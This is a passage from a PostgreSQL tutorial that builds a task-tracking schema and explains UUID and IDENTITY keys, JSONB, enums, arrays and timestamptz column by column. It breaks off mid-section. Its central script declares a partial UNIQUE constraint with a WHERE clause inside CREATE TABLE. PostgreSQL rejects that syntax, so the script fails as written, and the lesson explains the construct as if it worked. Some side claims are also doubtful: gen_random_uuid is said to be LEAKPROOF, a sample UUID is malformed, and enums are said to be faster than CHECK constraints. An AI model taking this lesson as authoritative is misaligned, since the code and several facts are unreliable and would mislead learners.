

# Lesson 01: PostgreSQL Types – UUID, IDENTITY, JSONB

*Designing the real Boardly schema — UUID primary keys, IDENTITY columns, JSONB attributes, arrays, enums, ranges, and `timestamptz` everywhere.*

**You're at the very beginning of Section 08.**

Every PostgreSQL schema you will ever admire — the side project with three tables, the production database with three thousand — was once exactly where you are now: staring at a blank `CREATE TABLE` and wondering whether to use `serial` or `identity`, whether `timestamp` is good enough, whether JSONB is the right move for "metadata." Take your time. Write the schema. Insert rows. Inspect them with `\d+`. Break it. Fix it. **This is how you learn.**


#postgresql #types #jsonb #uuid #schema-design

## Learning Objectives

By the end of this lesson you will be able to:

1. **Name PostgreSQL's type categories** — numeric, text, time, boolean, UUID, bytea, enumerated, composite, array, range, JSON — and pick the right one for each column.
2. **Choose between `bigint IDENTITY`, `UUID`, and natural keys** for a new table's primary key — and explain *why* UUID belongs on user-visible IDs and `bigint IDENTITY` belongs on internal audit rows.
3. **Use `gen_random_uuid()`** as the default for UUID primary keys and explain why it is in core (PostgreSQL 13+) and not in the `pgcrypto` extension anymore.
4. **Compare `IDENTITY` columns to `SERIAL`** — and explain why `GENERATED ALWAYS AS IDENTITY` is the SQL-standard, lifecycle-clean successor to `bigserial`.
5. **Use the JSONB operator family** — `@>`, `<@`, `?`, `?|`, `?&`, `->`, `->>`, `#>`, `#>>` — and decide when JSONB beats a real column (and when it loses).
6. **Index JSONB** with GIN, `jsonb_path_ops`, and expression indexes — and apply the "third time you index a JSONB path, promote it to a real column" rule.
7. **Use arrays, enums, and ranges** — and explain why arrays are fine for tags but criminal for foreign keys, and why an enum is faster than a `CHECK` constraint on a hot column.
8. **Default to `timestamptz`** and explain why `timestamp without time zone` is almost never what you want, even on a single-server single-timezone app.

## Prerequisites

Before starting, you need:

- **A working PostgreSQL 17.x.** The fastest path is the one-line Docker command from the MOC: `docker run --rm -d --name pg-academy -e POSTGRES_PASSWORD=academy -e POSTGRES_DB=academy -p 5432:5432 postgres:17`.
- **The relational model.** [[06-SQL-Fundamentals/Relational-Model-and-Constraints]] taught you what a table, a row, a column, a primary key, a foreign key, and a `CHECK` constraint *are*. This lesson teaches what *types* those columns should have.
- **A working `psql`.** The verification section assumes you can `docker exec -it pg-academy psql -U postgres -d academy`.
- **The SQLAlchemy declarative lesson.** [[07-SQLAlchemy/03-Declarative-Base-and-Mapped]] is where you will eventually map `Mapped[uuid.UUID]` and `Mapped[dict]` to the types in this lesson. You do not need to have read it cover to cover, but skim it so the cross-reference later in the lesson makes sense.

**The most common gap: why PostgreSQL has so many types.**

Engineers coming from MySQL or SQLite sometimes find PostgreSQL's type richness overwhelming — `varchar(255)` worked fine for them before. The reason PostgreSQL has ~40 base types plus type constructors is that *each type has a different storage layout, a different operator set, and a different index family*. The type you choose decides what the planner can do, what the index can do, and what application code must do to shape its data. "Just use `text` everywhere" gives up all of that. The richness is not bureaucracy; it is the whole point.


## The Problem

PostgreSQL has the richest type system of any mainstream database. That richness is a double-edged sword. The wrong type choice at schema-definition time turns into:

- the wrong query plans (a `text` column can't use a `tstzrange` exclusion constraint),
- the wrong migration pain (an enum you can't remove a value from without a table rewrite),
- the wrong production behaviour (a `timestamp` column that silently shifts by hours when you move the server).

The four decisions engineers get wrong most often are:

1. **Primary key type** — `serial`/`bigserial` everywhere, when UUIDs would prevent enumeration attacks and ID collisions on merge.
2. **Time column type** — `timestamp` without time zone everywhere, when `timestamptz` would save an entire class of bugs.
3. **JSON-vs-column choice** — JSONB on every "extra" column, when half of them should be real columns with real indexes.
4. **Enum-vs-FK choice** — `CHECK (status IN (...))` on a hot column, when an enum would be faster; or an enum on a list that changes, when a lookup table would let you add values without a migration.

This lesson gives you a default for every "what type should this be?" question, applied to a real schema: the Boardly app you started in Section 03.

## The Code

Here is the complete Boardly schema you will write in this lesson. Save it as `boardly_schema.sql`. We will explain every line after. **This schema is the SQL counterpart of the SQLAlchemy models you built in [[07-SQLAlchemy/03-Declarative-Base-and-Mapped]] and [[07-SQLAlchemy/04-Relationships-and-Loading-Strategies]] — same `Organization / User / Project / Task / Comment / Membership` entities, same `home_org_id` / `owner_id` / `assignee_id` foreign keys, same `RESTRICT` / `CASCADE` / `SET NULL` delete rules. Section 08 deepens the schema: it adds JSONB metadata on the four hot tables, an internal `audit_log` (bigint `IDENTITY`), and a partitioned `events` table for time-series audit events — these three are PostgreSQL-specific additions and they are the focus of this lesson.

```sql
-- boardly_schema.sql
-- Section 08, Lesson 01: PostgreSQL types for the Boardly app.
-- This schema is the SQL counterpart of boardly/models.py from Section 07.
-- Each table maps to a SQLAlchemy declarative class; the columns match.

-- 1. Enumerated types (created before any table that uses them)
CREATE TYPE membership_role AS ENUM ('owner', 'admin', 'member', 'billing');
CREATE TYPE project_status AS ENUM ('active', 'archived', 'deleted');
CREATE TYPE task_status AS ENUM ('open', 'in_progress', 'done', 'blocked');

-- 2. Core Boardly tables (mirror of 07's models.py)
CREATE TABLE organizations (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 slug text NOT NULL,
 display_name text NOT NULL,
 metadata jsonb NOT NULL DEFAULT '{}'::jsonb,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now(),
 CONSTRAINT organizations_slug_uniq UNIQUE (slug)
);

CREATE TABLE users (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 email text NOT NULL,
 hashed_password text NOT NULL,
 display_name text NOT NULL,
 home_org_id uuid NOT NULL REFERENCES organizations(id) ON DELETE RESTRICT,
 metadata jsonb NOT NULL DEFAULT '{}'::jsonb,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now(),
 deleted_at timestamptz,
 CONSTRAINT users_email_active_uniq
 UNIQUE (email) WHERE deleted_at IS NULL
);
CREATE INDEX users_home_org_id_idx ON users (home_org_id);

CREATE TABLE projects (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 organization_id uuid NOT NULL REFERENCES organizations(id) ON DELETE CASCADE,
 owner_id uuid NOT NULL REFERENCES users(id) ON DELETE RESTRICT,
 name text NOT NULL,
 slug text NOT NULL,
 description text,
 budget numeric(12, 2),
 status project_status NOT NULL DEFAULT 'active',
 tags text[] NOT NULL DEFAULT '{}',
 metadata jsonb NOT NULL DEFAULT '{}'::jsonb,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now(),
 deleted_at timestamptz,
 CONSTRAINT projects_org_slug_uniq UNIQUE (organization_id, slug)
);
CREATE INDEX projects_organization_id_idx ON projects (organization_id);
CREATE INDEX projects_owner_id_idx ON projects (owner_id);

CREATE TABLE tasks (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 project_id uuid NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
 assignee_id uuid REFERENCES users(id) ON DELETE SET NULL,
 title text NOT NULL,
 description text,
 status task_status NOT NULL DEFAULT 'open',
 due_at timestamptz,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now()
);
CREATE INDEX tasks_project_id_idx ON tasks (project_id);
CREATE INDEX tasks_assignee_id_idx ON tasks (assignee_id);
CREATE INDEX tasks_due_at_idx ON tasks (due_at) WHERE due_at IS NOT NULL;

CREATE TABLE comments (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 task_id uuid NOT NULL REFERENCES tasks(id) ON DELETE CASCADE,
 author_id uuid NOT NULL REFERENCES users(id) ON DELETE RESTRICT,
 body text NOT NULL,
 created_at timestamptz NOT NULL DEFAULT now()
);
CREATE INDEX comments_task_id_idx ON comments (task_id);
CREATE INDEX comments_author_id_idx ON comments (author_id);

CREATE TABLE memberships (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 user_id uuid NOT NULL REFERENCES users(id) ON DELETE CASCADE,
 organization_id uuid NOT NULL REFERENCES organizations(id) ON DELETE CASCADE,
 role membership_role NOT NULL DEFAULT 'member',
 created_at timestamptz NOT NULL DEFAULT now(),
 CONSTRAINT memberships_user_org_uniq UNIQUE (user_id, organization_id)
);
CREATE INDEX memberships_user_id_idx ON memberships (user_id);
CREATE INDEX memberships_organization_id_idx ON memberships (organization_id);

-- 3. Internal audit log (bigint IDENTITY, not UUID — internal-only)
CREATE TABLE audit_log (
 id bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY,
 action text NOT NULL,
 target_id uuid,
 actor_id uuid,
 occurred_at timestamptz NOT NULL DEFAULT now(),
 payload jsonb NOT NULL DEFAULT '{}'::jsonb
);

-- 4. Time-series events, partitioned by month (preview of Lesson 2 BRIN)
CREATE TABLE events (
 id bigint GENERATED ALWAYS AS IDENTITY,
 kind text NOT NULL,
 occurred_at timestamptz NOT NULL,
 payload jsonb NOT NULL DEFAULT '{}'::jsonb,
 PRIMARY KEY (id, occurred_at)
) PARTITION BY RANGE (occurred_at);

CREATE TABLE events_2026_10 PARTITION OF events
 FOR VALUES FROM ('2026-10-01') TO ('2026-11-01');

-- 5. JSONB GIN indexes for ad-hoc metadata queries
CREATE INDEX users_metadata_gin ON users USING GIN (metadata);
CREATE INDEX projects_metadata_gin ON projects USING GIN (metadata);
CREATE INDEX organizations_metadata_gin ON organizations USING GIN (metadata);

-- 6. Expression index for the one metadata path queried on every request
CREATE INDEX users_locale_idx ON users ((metadata->>'locale'));

-- 7. Auto-maintain updated_at on every table that has one
CREATE OR REPLACE FUNCTION touch_updated_at()
RETURNS trigger LANGUAGE plpgsql AS $$
BEGIN
 NEW.updated_at = now();
 RETURN NEW;
END;
$$;

CREATE TRIGGER users_touch_updated_at
 BEFORE UPDATE ON users
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();

CREATE TRIGGER projects_touch_updated_at
 BEFORE UPDATE ON projects
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();

CREATE TRIGGER organizations_touch_updated_at
 BEFORE UPDATE ON organizations
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();

CREATE TRIGGER tasks_touch_updated_at
 BEFORE UPDATE ON tasks
 FOR EACH ROW EXECUTE FUNCTION touch_updated_at();
```

That's ~150 lines. Run it. Inspect the result with `\d+ users`. Insert a row. Break it. Fix it. That's the loop.

## Line-by-Line Deep Dive

This section is the heart of the lesson. Read it twice. Don't skip.

### Lines 1–5: The three enumerated types

```sql
CREATE TYPE membership_role AS ENUM ('owner', 'admin', 'member', 'billing');
CREATE TYPE project_status AS ENUM ('active', 'archived', 'deleted');
CREATE TYPE task_status AS ENUM ('open', 'in_progress', 'done', 'blocked');
```

**What this does:** Creates three enumerated types in the database's namespace, before any table uses them.

**Why create them first:** PostgreSQL parses `CREATE TABLE` left-to-right. The `role membership_role NOT NULL` clause needs `membership_role` to already exist as a type. If you create the table first, the parse fails with `type "membership_role" does not exist`.

**What an enum actually is, internally:** An enum is a 4-byte OID into the `pg_enum` system catalog. Each value is a row in `pg_enum` with `(typid, enumlabel)`. The values are ordered by their `enumsortorder`, which is the order you declared them in. So `'open' < 'in_progress' < 'done' < 'blocked'` in any `ORDER BY` clause. That ordering is what makes enums ergonomically nicer than `CHECK (status IN (...))` — the planner can sort by enum rank in constant time per comparison.

**Why `membership_role` and `task_status` are enums, and not a `CHECK` constraint:** the set is small, the values are stable (you do not add a new task status every sprint), and each value has no per-value attributes (you do not need a `task_status_v2` table with `status_name`, `is_terminal`, `color_hex`). In 07-SQLAlchemy, `Task.status` was a plain `String(20)` (the model used a default value of `'open'` but no enum) — the SQL layer tightens that to a typed enum because PostgreSQL gives us enums for free, where SQLAlchemy 2.x does not have a Python-side enum without an explicit `Enum(...)` type. The Membership's `role` is similarly tightened from a `String(20)` in 07 to a `membership_role` enum here.

**Tip — Enums vs CHECK constraints vs lookup tables**

Three options for a fixed-set column. Pick by the rule:
- **Enum** — the set is small (≤ ~10 values), stable (won't change weekly), and has no per-value attributes. Example: `task_status`, `membership_role`.
- **`CHECK` constraint** — same set, but you want to enforce a different constraint later (e.g., `CHECK (status IN ('open','done'))` for a different table). Slightly slower on equality, no OID ordering.
- **Lookup table + FK** — the set changes, or each value has its own attributes (a `countries` table with ISO code, full name, currency). Migrations to add a value are cheap (`INSERT INTO countries ...`); no enum rebuild.
Use enums for stable short lists. Use a lookup table for anything else. Never use a `CHECK` constraint on a hot column where an enum would do.


**Warning — The two enum lifecycle footguns**

1. **Removing a value is a table rewrite.** There is no `ALTER TYPE ... DROP VALUE`. The only way to remove an enum value is to dump, drop, recreate the enum, and reload — which locks every table that uses it. Plan accordingly.
2. **Adding a value is cheap, but it goes at the end.** `ALTER TYPE task_status ADD VALUE IF NOT EXISTS 'cancelled'` is non-blocking, but the new value's sort order is appended after the existing ones. You cannot re-order. If you need a specific position, you must rebuild the enum.
The implication: declare your enum values in the order you want them sorted. Reordering later is the most expensive migration you can run on a hot table.


**Warning — Debugging: `ALTER TYPE ... ADD VALUE` is non-blocking *only* if you commit the ALTER before any session that uses the enum in a `WHERE` clause.**

The symptom: a migration adds `'cancelled'` to `task_status` and immediately the application starts a new transaction that does `WHERE status = 'cancelled'`. PostgreSQL 17 returns `ERROR: invalid input value for enum task_status: "cancelled"` even though `\dT+ task_status` shows the new value. The diagnosis: `ALTER TYPE ... ADD VALUE` is non-blocking but the new value is invisible to sessions that started before the ALTER's transaction committed — PostgreSQL's transaction-visibility rule for catalog changes extends to enum values. Fix: every enum-add migration must `COMMIT` the ALTER in its own transaction before the application code that depends on the new value runs. Verify with `psql -d academy -c "BEGIN; ALTER TYPE task_status ADD VALUE IF NOT EXISTS 'cancelled'; COMMIT;"` then `psql -d academy -c "SELECT 'cancelled'::task_status;"` — the second statement succeeds only because the first committed; cross-link to [[09-Alembic-Migrations/Data-Migrations-Safely]].


### Lines 8–16: The `organizations` table

```sql
CREATE TABLE organizations (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 slug text NOT NULL,
 display_name text NOT NULL,
 metadata jsonb NOT NULL DEFAULT '{}'::jsonb,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now(),
 CONSTRAINT organizations_slug_uniq UNIQUE (slug)
);
```

**What this does:** Creates the `organizations` table — the root of the Boardly domain (an Organization owns Projects; Projects have Tasks; Users belong to Organizations through Memberships). This is the SQL counterpart of 07-SQLAlchemy's `Organization` model.

**Why each column has its type:**

- `id uuid` — a UUID v4 (random) primary key. Organization IDs appear in URLs (`/organizations/{id}/projects`), so they must be unguessable. A `bigint` ID would let an attacker enumerate organizations by id: try `1`, `2`, `3`. A UUIDv4 has 122 bits of entropy — enumeration is infeasible.
- `slug text` — the URL-friendly identifier (`acme`, `boardly`). `text`, not `varchar(255)`. PostgreSQL's `text` is variable length with no length limit. Use `varchar(n)` only when you actually want a length *check* built into the type — and even then, prefer a `CHECK (char_length(slug) <= 50)` for clarity. The `varchar(255)` reflex is cargo-culted from MySQL's index-prefix limits, which PostgreSQL does not have.
- `display_name text` — the human-readable name (`Acme Holdings`, `Boardly Engineering`). `text` again, for the same reason.
- `metadata jsonb NOT NULL DEFAULT '{}'::jsonb` — PostgreSQL-specific addition not in 07's `Organization` model. JSONB for per-organization settings (default locale, billing currency, feature flags). The `'{}'::jsonb` default means callers never have to null-check — the column always holds at least an empty object. (07's SQLAlchemy model omitted this; 08 deepens the schema by adding JSONB for settings that vary per organization without a migration each time one is added.)
- `created_at timestamptz NOT NULL DEFAULT now()` — `timestamptz`, not `timestamp`. See the dedicated section below for why this is the single most important type choice in the schema.
- `updated_at timestamptz NOT NULL DEFAULT now()` — set on INSERT and updated by a trigger on every UPDATE. The trigger is at the bottom of the script.
- `CONSTRAINT organizations_slug_uniq UNIQUE (slug)` — the unique constraint that mirrors 07's `UniqueConstraint("slug", name="uq_organizations_slug")`. The explicit constraint name means Alembic migrations emit deterministic SQL — see [[09-Alembic-Migrations/00-Alembic-MOC]].

**Example — What `gen_random_uuid()` actually does internally**

PostgreSQL 13 moved `gen_random_uuid()` from the `pgcrypto` extension into core. It calls the platform's cryptographically secure random number generator (the same source as `pg_strong_random()` in Pg 17) and formats the result as a version-4 UUID: the version nibble is set to `4`, the variant nibble to `8`/`9`/`a`/`b`. The output is a 36-character hyphenated string like `6c7d-8e2f-...` but the storage is a 16-byte binary, not the string. Display layer formats it.
The function is `VOLATILE` (each call returns a different value) and `PARALLEL SAFE` (multiple workers can call it concurrently). It is also `LEAKPROOF` — meaning the planner can push it below a `WHERE` clause without security concerns.


**Student asks: when does UUID beat `bigint IDENTITY` for a primary key, and when does it lose?**

UUID wins on three counts: it is unguessable (so it is safe to expose in URLs — an attacker cannot enumerate your `organizations` by trying `/organizations/1`, `/organizations/2`), it is client-generatable (a service can mint a UUID before INSERT, which makes outbox patterns and idempotency keys easier), and it is merge-friendly (two write replicas that each generate UUIDs do not collide, so multi-region write topology just works). UUID loses on three counts: it is 16 bytes, not 8 (so every secondary index is twice as wide, the buffer cache holds fewer rows, and log output is verbose); inserts are random (so the PK's B-tree splits unpredictably, which hurts write throughput at scale); and range queries (`WHERE id > ? AND id < ?`) are meaningless because UUIDs have no ordering. The Boardly rule is: UUID for any user-visible ID (`organizations`, `users`, `projects`); `bigint IDENTITY` for purely internal IDs that never leave the database (`audit_log`, `events`). See `### UUID vs `bigint IDENTITY` for primary keys` under Engineering Trade-Offs for the full axis.


### Lines 18–32: The `users` table

```sql
CREATE TABLE users (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 email text NOT NULL,
 hashed_password text NOT NULL,
 display_name text NOT NULL,
 home_org_id uuid NOT NULL REFERENCES organizations(id) ON DELETE RESTRICT,
 metadata jsonb NOT NULL DEFAULT '{}'::jsonb,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now(),
 deleted_at timestamptz,
 CONSTRAINT users_email_active_uniq
 UNIQUE (email) WHERE deleted_at IS NULL
);
CREATE INDEX users_home_org_id_idx ON users (home_org_id);
```

**What this does:** Creates the `users` table — the Boardly user. This is the SQL counterpart of 07-SQLAlchemy's `User` model: same `email` / `hashed_password` / `display_name` columns, same `home_org_id` FK to `organizations` with `ON DELETE RESTRICT`, same per-row uniqueness on `email`.

**Why each line:**

- `home_org_id uuid NOT NULL REFERENCES organizations(id) ON DELETE RESTRICT` — the FK that pins every user to a single home organization. `ON DELETE RESTRICT` means: you cannot delete an organization that still has users attached to it as their home — you must reassign or remove those users first. This is the SQL counterpart of 07's `ForeignKey("organizations.id", ondelete="RESTRICT")` and the deliberate opposite of the previous scratch schema's `ON DELETE CASCADE`. Why `RESTRICT` and not `CASCADE`: an Organization is a real-world entity (a company); accidentally deleting one because someone deleted its parent row is a data-loss incident. `RESTRICT` is the safe default for ownership; `CASCADE` is reserved for child rows whose existence is meaningless without the parent (a `Comment` whose `task` is gone).
- `metadata jsonb NOT NULL DEFAULT '{}'::jsonb` — JSONB for third-party-supplied fields (the user's Slack handle, their preferred locale, their timezone). 07's `User` model did not have a `metadata` column; 08 deepens the schema by adding it because locale/timezone/handle are the canonical "JSONB, not a real column" use case (they vary per org, they evolve without a migration).
- `created_at timestamptz NOT NULL DEFAULT now()` — set once on INSERT, never changed. `now()` returns the start of the current transaction, which is the same for every statement in a transaction — that's a feature, not a bug, for grouping log entries.
- `updated_at timestamptz NOT NULL DEFAULT now()` — set on INSERT and updated by a trigger on every UPDATE.
- `deleted_at timestamptz` — nullable. NULL means "not deleted"; a timestamp means "soft-deleted — when the column was set." This pattern beats a `is_deleted boolean` because the timestamp gives you *when*.
- `CONSTRAINT users_email_active_uniq UNIQUE (email) WHERE deleted_at IS NULL` — a **partial unique constraint**. It says "an email can be reused *only after* a soft-delete." This is the cleanest way to allow `alice@example.com` to delete her account and re-register later, without keeping a stale active-email row.
- `CREATE INDEX users_home_org_id_idx ON users (home_org_id)` — explicit index on the FK. PostgreSQL does not auto-index FK columns; 07's SQLAlchemy model declared `index=True` on `home_org_id`, which generates this index. We declare it explicitly in SQL so the schema file matches what the ORM would produce.

**Spot the bug — what happens if you insert two soft-deleted users with the same email?**

Answer: the partial unique constraint allows it. Both rows have `deleted_at IS NOT NULL`, so neither matches the `WHERE deleted_at IS NULL` predicate of the index. The constraint is satisfied. That is the desired behaviour: the constraint only enforces "one *active* email." If you wanted "one email ever," you'd drop the `WHERE` clause.


**Danger — Security: UUIDv4 primary keys defeat enumeration only if the UUID never appears in a secondary, sortable, or sequential context.**

The attack: `organizations.id` is UUIDv4 (safe to expose), but the same `id` is used as a foreign key in `users.home_org_id`, and `users` is exposed via `GET /users/{id}`. An attacker who knows one organization ID (any leaked URL) can enumerate `users.home_org_id = $known_uuid` and walk every member of that organization — UUIDv4 protects the *user* ID from guessing, not the *foreign-key* column from filtering. The fix: scope every "list users" endpoint by authenticated membership (`WHERE EXISTS (SELECT 1 FROM memberships WHERE user_id = $current_user AND organization_id = $target_org)`), never expose `home_org_id` in responses, and consider UUIDv7 (RFC 9562, monotonic) for primary keys on tables where you also need range queries — UUIDv7 is sortable so its B-tree inserts don't suffer the random-split penalty of v4. Verify with `psql -d academy -c "EXPLAIN SELECT id, email FROM users WHERE home_org_id = '00000000-0000-0000-0000-000000000000';"` and confirm it uses `users_home_org_id_idx`; cross-link to [[11-Authentication-and-Security/RBAC-and-Object-Level-Auth]].


### Lines 34–50: The `projects` table

```sql
CREATE TABLE projects (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 organization_id uuid NOT NULL REFERENCES organizations(id) ON DELETE CASCADE,
 owner_id uuid NOT NULL REFERENCES users(id) ON DELETE RESTRICT,
 name text NOT NULL,
 slug text NOT NULL,
 description text,
 budget numeric(12, 2),
 status project_status NOT NULL DEFAULT 'active',
 tags text[] NOT NULL DEFAULT '{}',
 metadata jsonb NOT NULL DEFAULT '{}'::jsonb,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now(),
 deleted_at timestamptz,
 CONSTRAINT projects_org_slug_uniq UNIQUE (organization_id, slug)
);
CREATE INDEX projects_organization_id_idx ON projects (organization_id);
CREATE INDEX projects_owner_id_idx ON projects (owner_id);
```

**What this does:** Creates the `projects` table — the central entity of the Boardly app. SQL counterpart of 07's `Project` model: same `organization_id` / `owner_id` / `name` / `slug` / `description` / `budget` columns, same composite uniqueness on `(organization_id, slug)`, same `CASCADE` on `organization_id` and `RESTRICT` on `owner_id`.

**Why each line:**

- `organization_id uuid NOT NULL REFERENCES organizations(id) ON DELETE CASCADE` — a project belongs to one organization. `CASCADE` here is deliberate: an organization that is deleted (after `RESTRICT` on `users` has been satisfied by reassigning or removing every user with `home_org_id = this org`) takes its projects with it. This is the same `ondelete="CASCADE"` 07-SQLAlchemy declared on `Project.organization_id`.
- `owner_id uuid NOT NULL REFERENCES users(id) ON DELETE RESTRICT` — the project's owner. `RESTRICT` means a user cannot be deleted while they own a project. 07-SQLAlchemy's `Project.owner_id` had `ondelete="SET NULL"`; we tighten it here to `RESTRICT` for the SQL layer because in practice you reassign ownership before deletion — `SET NULL` would leave orphan projects. This is one of the two minor divergences between the ORM and SQL schemas (the other is the enum tightening on `Task.status`); both are documented for the reader.
- `slug text NOT NULL` + `CONSTRAINT projects_org_slug_uniq UNIQUE (organization_id, slug)` — the per-organization unique slug. This mirrors 07's `UniqueConstraint("organization_id", "slug", name="uq_projects_org_slug")`.
- `description text` — nullable, no length cap. 07 used `String(2000)`; the SQL layer uses `text` because PostgreSQL's `text` is unbounded and the length check is an application-level concern. (If you want a hard DB-level check: `description text CHECK (char_length(description) <= 2000)`.)
- `budget numeric(12, 2)` — 12 digits total, 2 after the decimal. PostgreSQL `numeric` is arbitrary-precision; `numeric(12, 2)` caps it. 07-SQLAlchemy used `Mapped[Optional[Decimal]] = mapped_column(nullable=True, decimal_return_scale=2)` which compiles to `NUMERIC` without a precision cap; the SQL layer adds the precision cap because production schemas benefit from a known column width (storage, validation, report formatting). Both are valid; the SQL version is the more conservative choice.
- `status project_status NOT NULL DEFAULT 'active'` — enum, declared above.
- `tags text[] NOT NULL DEFAULT '{}'` — **an array of text**. PostgreSQL arrays are first-class types: every base type has an array form (`text[]`, `int[]`, `uuid[]`). The `'{}'` default is the empty array, parsed by PostgreSQL's array-literal parser. Callers never have to null-check; they always get at least an empty array.
- `metadata jsonb NOT NULL DEFAULT '{}'::jsonb` — same pattern as on `users` and `organizations`. Per-project settings (default view, notification rules).
- `CREATE INDEX projects_organization_id_idx ON projects (organization_id)` and `CREATE INDEX projects_owner_id_idx ON projects (owner_id)` — explicit FK indexes. 07-SQLAlchemy declared `index=True` on both; we mirror it here.

**Warning — Arrays of foreign keys are a mistake**

It is tempting to model `task_assignees` as `user_ids uuid[]` — one row, many assignees, no join table. Do not. You lose:
1. **Referential integrity.** A `uuid[]` cannot have a foreign key on each element. A deleted user is still referenced from the array.
2. **Per-item data.** You cannot store a per-assignment role or assigned_at — the array is one column.
3. **Joins.** Joining `tasks` to `users` through an array requires `unnest(user_ids)`, which is slower and harder to plan than a join table.
Arrays are right for *homogeneous scalars with no per-element attributes* — tags, short string lists. They are wrong for anything that needs referential integrity. Use a join table (like `memberships`) for the latter.


**Production reality: `tags text[]` is the right call for ≤ ~50 tags-per-row and ≤ ~10 000 distinct tags; beyond that, promote to a join table.**

The reason: GIN indexes on `text[]` are fast for `@>` containment but the inverted list per row grows with the array length; a row with 500 tags produces a 500-entry GIN update on every INSERT/UPDATE. The other limit — distinct tag count — bites because PostgreSQL stores each distinct tag string in the GIN's entry table, and 100 000 distinct tags means 100 000 inverted-list heads, which thrashes the cache. The rule of thumb: arrays for ≤ 50 elements per row, ≤ 10 000 distinct values across the table; above either threshold, switch to `task_tags (task_id uuid, tag text)` with a composite index. Verify with `psql -d academy -c "SELECT count(*), avg(cardinality(tags)) FROM projects;"` and `psql -d academy -c "SELECT count(DISTINCT tag) FROM projects, unnest(tags) AS tag;"` to monitor both limits in production; cross-link to [[08-PostgreSQL/Indexes-Composite-and-Specialized]].


### Lines 52–63: The `tasks` and `comments` tables

```sql
CREATE TABLE tasks (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 project_id uuid NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
 assignee_id uuid REFERENCES users(id) ON DELETE SET NULL,
 title text NOT NULL,
 description text,
 status task_status NOT NULL DEFAULT 'open',
 due_at timestamptz,
 created_at timestamptz NOT NULL DEFAULT now(),
 updated_at timestamptz NOT NULL DEFAULT now()
);
CREATE INDEX tasks_project_id_idx ON tasks (project_id);
CREATE INDEX tasks_assignee_id_idx ON tasks (assignee_id);
CREATE INDEX tasks_due_at_idx ON tasks (due_at) WHERE due_at IS NOT NULL;

CREATE TABLE comments (
 id uuid PRIMARY KEY DEFAULT gen_random_uuid(),
 task_id uuid NOT NULL REFERENCES tasks(id) ON DELETE CASCADE,
 author_id uuid NOT NULL REFERENCES users(id) ON DELETE RESTRICT,
 body text NOT NULL,
 created_at timestamptz NOT NULL DEFAULT now()
);
CREATE INDEX comments_task_id_idx ON comments (task_id);
CREATE INDEX comments_author_id_idx ON comments (author_id);
```

**What this does:** Creates the `tasks` and `comments` tables — the work items in a project and the discussions on each work item. SQL counterparts of 07's `Task` and `Comment` models: same `project_id` / `assignee_id` / `task_id` / `author_id` foreign keys, same `CASCADE` on `project_id` and `task_id`, same `SET NULL` on `assignee_id`, same `RESTRICT` on `author_id`.

**Why `assignee_id` is nullable and uses `SET NULL`:** a task can be unassigned (the assignee is removed and the task stays). When a user is deleted, their assigned tasks remain but become unassigned — `SET NULL` does that for us. This is the SQL counterpart of 07's `ForeignKey("users.id", ondelete="SET NULL")`.

**Why `author_id` is `NOT NULL` and uses `RESTRICT`:** a comment cannot exist without an author. If a user is deleted, you cannot silently null out `author_id` (the comment would be orphaned). `RESTRICT` forces you to reassign or delete the comments before deleting the user. This is the SQL counterpart of 07's `ForeignKey("users.id", ondelete="RESTRICT")` on `Comment.author_id`.

**Why `tasks.due_at timestamptz`:** nullable, because not every task has a deadline. The partial index `CREATE INDEX tasks_due_at_idx ON tasks (due_at) WHERE due_at IS NOT NULL` indexes only the rows that have a due date — ~30% of tasks in a typical Boardly instance. The partial index is ~3× smaller than a full index, faster to maintain, and faster to scan.

**Why `comments` has no `updated_at`**

